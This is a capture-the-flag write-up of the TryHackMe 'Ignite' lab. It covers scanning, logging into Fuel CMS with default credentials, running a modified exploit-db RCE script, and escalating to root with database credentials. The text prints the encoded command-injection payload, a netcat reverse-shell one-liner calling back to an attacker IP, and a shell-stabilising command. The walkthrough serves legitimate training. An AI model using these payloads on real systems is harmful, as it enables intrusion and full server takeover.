 +++
title = 'Ignite: TryHackMe Writeup'
date = "2020-07-23"
draft = false
+++

# Try Hack Me - Ignite
A new start-up has a few issues with their web server.

## Disclaimer - Your IP address will be different!
---
## Objectives
1. Locate the User.txt

2. Locate the Root.txt
---
## Scanning and Enumeration
We are going to start this with a simple nmap scan to see what ports are open.  
Command: `nmap -T4 -sC -sV -oN nmap\inital <ip>`
Command Breakdown:  

```
-T4: speed of nmap scan is 4/5 (personal preference of mine)

-sC: Scan with default NSE scripts. Considered useful for discovery and safe

-sV: Attempts to determine the version of the service running on port

-oN: Normal output to the file normal.file
```

NMAP Results:  
From our intinal scann it seems that there is only one port open and the it 80.  
So lets open up our browser and see what shows up when we enter in the IP address of our challenge.  

```
# Nmap 7.80 scan initiated Thu Jul  9 19:15:51 2020 as: nmap -T4 -sC -sV -oN nmapinital 10.10.220.239
Nmap scan report for 10.10.220.239
Host is up (0.15s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
```  
# Recon  

It looks like we have a functioning web service running the Fuel CMS.  
{{< figure src="/images/Ignite/webService.png">}}
Now if we scroll futher down on this page it seems that the created has already provided us with the URL to the log in panel and the credentials needed to log in as well.  
{{< figure src="/images/Ignite/creds.png">}}
So lets navigate to the `/fuel` url and see if we are actually able to log into this CMS.  
{{< figure src="/images/Ignite/login.png">}}
Once we have entere in the credentials taht we found earlier it takes us direclty to the main dashboard for this application.  
{{< figure src="/images/Ignite/dashboard.png">}}
Since I am not quite sure what to do with the dashboard I am going to place it on the back burner for now.  
Lets pull up searchsploit and see if we are able to find exploits for Fuel CMS.  
It looks like there is an Remote Code Execution vulnerability that we may be able to take advtange of.  
{{< figure src="/images/Ignite/searchSploit.png">}}
I make a copy of this vulnerability into an exploite folder for this challenge.  
Command: `cp /usr/share/exploitdb/exploits/linux/webapps/47138.py /media/sf_CTF/THM/Ignite/exploits/RCE.py`  
Now that we have a copy of that exploite let take a look at the content of it.  
We are going to use nano.  
Command: `nano RCE.py`  

I had to make a couple of changes to the exploite.  
The first thing that I did was remove the port number,  
Secondly I remove the proxy variable.  
This is what you should have in at the end.  
Now when we run the exploite we are given a nice `CMD:` prompt.  
This is what you should have in at the end.  
```python
url = "http://10.10.220.239"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)
```  
As you can see we are able to run some commands remotely. When this new found power it is possible that we can create a reverse shell and then find out first flag.

{{< figure src="/images/Ignite/exploit.png">}}
Let's see if [pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) has any one liners that we can try and chain together with this exploit. Well, well, well it looks like there is an one liner for seting up a netcat reverse shell. How about we give it a shot.  
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.2.222 4444 >/tmp/f
```
{{< figure src="/images/Ignite/RCE.png">}}

Before we try and run this revser sell we are going to need to set up a netcat lisitener on out host machine.  
Command: `nc -lvnp 4444` 


Code Breakdown:
```netcat
-l: listen mode, for inbound connects

-v: verbose [use twice to be more verbose]

-n: numeric-only IP addresses, no DNS

-p: local port number
```
{{< figure src="/images/Ignite/firstShell.png">}}
It looks like it worked! Now it is time to snoop around and see if we are able to find out user flag.  
After running the `ls` command a few times I was able to locate our first flag.  
We are going to use the `cat` command to receive the content of the `user.txt` file.   
{{< figure src="/images/Ignite/userFlag.png">}}
<br>
## Privilege escalation
---

It is time to try and now to try and find out root flag.  
So where shall we start at. If you rember when we first accessed the Fuel CMS there was a small little information section that states a database file could be found at `/var/www/html/fuel/application/config/database.php`.  
{{< figure src="/images/Ignite/dbPath.png">}}

Let's go check out that file and see what it contains.  
It seems like we have stumbled across the root username and password.   
{{< figure src="/images/Ignite/rootCreds.png">}}

We can take the credentials that we just found and try to upgrade our user to a root user. 
Before we start running any commands we should try and do is create a stable shell.  
This can be done by using python and the following command `python -c ‘import pty; pty.spawn(“/bin/bash”)’`.  
Once our shell has become stable we can use the `su` command to switch into our root user account. 
<br>
{{< figure src="/images/Ignite/stableShell.png">}}
Now that our shell is stable we are going to verify that we are actually root.  
Great we are in fact root. Now lets receive the root flag.    
{{< figure src="/images/Ignite/rootFlag.png">}}

## Congratulations you have just completed the Ignite challenge!
